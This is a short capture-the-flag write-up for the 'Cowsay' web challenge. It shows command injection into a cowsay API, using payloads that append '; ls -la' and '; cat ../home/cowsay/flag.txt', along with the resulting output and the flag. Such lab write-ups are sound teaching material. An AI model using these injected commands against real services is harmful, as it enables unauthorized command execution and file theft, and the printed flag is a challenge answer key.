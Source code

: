 # Cowsay (150)
#### web - [Virginia TSA Technosphere CTF](../main.md)

## Challenge description:
> Let your business be cowsay enabled! Enjoy the finest cowsay experience thanks to our revolutionary, and secure API.
>
> [https://vatsa-cowsay.chals.io/](https://vatsa-cowsay.chals.io/)

## Solution
Cowsay is a command, leading me to believe this was a command injection. 

Trying several payloads, eventually `*munches grass* ; ls -la` worked.
```
 _________________ 
< *munches grass* >
 ----------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 24
drwxr-xr-x    1 root     root          4096 Apr 14 16:40 .
drwxr-xr-x    1 root     root          4096 Apr 14 16:46 ..
-rw-r--r--    1 root     root           852 Mar 11 15:33 app.py
drwxr-xr-x    2 root     root          4096 Apr 14 16:40 cowsay
-rw-r--r--    1 root     root           384 Feb 23 12:14 requirements.txt
drwxr-xr-x    2 root     root          4096 Apr 14 16:40 templates
```
Traversing the directory system, I eventually came across the flag with the payload `*munches grass* ; cat ../home/cowsay/flag.txt`

```
 _________________ 
< *munches grass* >
 ----------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
**********************
```
<details> 
    <summary>Flag</summary>
flag{c0ws4Y_Inj3ct10N}
</details>